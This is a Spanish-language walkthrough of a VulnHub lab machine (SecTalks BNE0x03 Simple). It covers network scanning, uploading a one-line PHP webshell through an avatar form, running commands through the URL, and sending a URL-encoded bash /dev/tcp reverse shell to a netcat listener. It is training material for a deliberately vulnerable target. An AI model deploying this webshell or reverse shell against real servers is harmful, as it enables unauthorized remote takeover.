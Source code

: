Maquinas a utilizar **Kali Linux y SecTalks: BNE0x03 - Simple (**[https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141))  
  

Seguimos con la subida de archivos malicioso para obtener intrusión remota de la maquina pero vamos a aprender el concepto de una Webshell.

  

```Bash
sudo arp-scan -I eth0 --localne
```

```Bash
ping -c 1 10.0.3.13
```

![[Imagenes/image 33.png|image 33.png]]

  

```Bash
nmap -p- -sS -sV -sC -min-rate 5000 -n -vvv -Pn 10.0.3.13
```

![[Imagenes/image 1 22.png|image 1 22.png]]

  

- Introducimos su IP en el navegador web
    
    ![[Imagenes/image 2 21.png|image 2 21.png]]
    
- Nos creamos un usuario
    
    ![[Imagenes/image 3 20.png|image 3 20.png]]
    
    ![[Imagenes/image 4 19.png|image 4 19.png]]
    
    ![[Imagenes/image 5 18.png|image 5 18.png]]
    

Ya habíamos visto anterior mente como crear con msfvenom un archivo malicioso el cual subíamos y obteníamos control remoto. Pero que pasa si esto falla , pues vamos a ver una alternativa.

- Desde un terminal creamos un archivo webshell.php con nano.
    
    ```Bash
    nano webshell.php
    ```
    
    Y escribimos dentro el siguiente codigo:
    
    ```Bash
    <?php
            echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    ?>
    ```
    
    Este código PHP ejecuta un comando de shell que se recibe como parámetro a través de la solicitud HTTP ($_REQUEST['cmd']) y muestra el resultado en formato HTML dentro de una etiqueta .
    
- Subimos el archivo mediante el formulario.
- Acedemos al directorio **uploads** (Ya habíamos visto anterior mente como encontrábamos este directorio. ==**[[Explotación de vulnerabilidad File Upload]]**====)==
    
    ![[Imagenes/image 6 16.png|image 6 16.png]]
    

  

- Pulsamos sobre el archivo malicioso
    
    La pantalla se queda en blanco y parece que no funciona , pero en realidad si funciona. pero abría que pasarle los comandos a través de la URL algo que no es nada cómodo. Pero vamos a ver coso se hace por URL.
    
- Esta seria la URL que me aparece en mi caso con mi archivo malicioso. `http://10.0.3.13/uploads/avatar_Terra_webshell.php`
- Le añadimos al final de la URL
    
    `?cmd=whoami`
    
    Donde se repetirá siempre `?cmd=` y el resto será el comando que queremos ejecutar. Quedando de esta manera.
    
    `http://10.0.3.13/uploads/avatar_Terra_webshell.php?cmd=whoami`
    
    ![[Imagenes/image 7 14.png|image 7 14.png]]
    
- Como hemos dicho antes este no es un método cómodo para ser utilizado. Y lo que estamos obteniendo es ejecución remota de comandos y lo que nosotros queremos obtener intrusión a la maquina , debemos insertar el comando propio de la revershell pero URLcodeado ya que estamos utilizando el navegador.

- Nos vamos a [Online - Reverse Shell Generator](https://www.revshells.com/) y copiamos el comando típico de revershell.
    
    ![[Imagenes/image 8 13.png|image 8 13.png]]
    
- Vamos a ello. Abrimos la **herramienta Burpsuite** y nos vamos a la pestaña **Decoder.**
    
    ![[Imagenes/image 9 12.png|image 9 12.png]]
    

  

- Escribimos en el Burpsuite lo siguiente:
    
    `bash -c “``**sh**` `-i >& /dev/tcp/``**10.0.3.4**``/``**443**` `0>&1”`
    
    ![[Imagenes/image 10 12.png|image 10 12.png]]
    

  

- En el menú lateral derecho escogemos en la opción **Encode as... URL.**
    
    ![[Imagenes/image 11 9.png|image 11 9.png]]
    
    Ya tenemos el comando URLcodeado.
    
    ![[Imagenes/image 12 9.png|image 12 9.png]]
    

  

- Abrimos un terminal y hacemos un netcat al puerto 443 que es el que hemos puesto en el revershell.
    
    ![[Imagenes/image 13 9.png|image 13 9.png]]
    

  

- Copiamos el comando URLcodeado, nos vamos al navegador y donde ponemos el comando copiamos el comando URLcodeado y ya estaremos dentro de la maquina.
    
    ![[Imagenes/image 14 7.png|image 14 7.png]]
    
    ![[Imagenes/image 15 6.png|image 15 6.png]]
    

  

A diferencia de lo que ocurría con una conexión con msfvenom aquí la conexión es mas estable y no se pierde.